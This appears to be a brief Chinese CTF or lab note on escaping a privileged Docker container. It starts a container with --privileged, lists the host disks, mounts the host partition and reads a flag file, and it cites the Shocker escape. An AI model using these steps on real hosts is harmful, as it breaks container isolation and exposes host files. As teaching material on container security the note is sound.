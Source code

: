 使用特权容器可以认为等同于host环境。

# 创建特权容器
```
docker run -it --privileged ubuntu
```

# 挂载目录

```
mkdir /escape
fdisk -l
mount /dev/sda5 /escape
cd /escape
cat flag
```

# 参考Shocker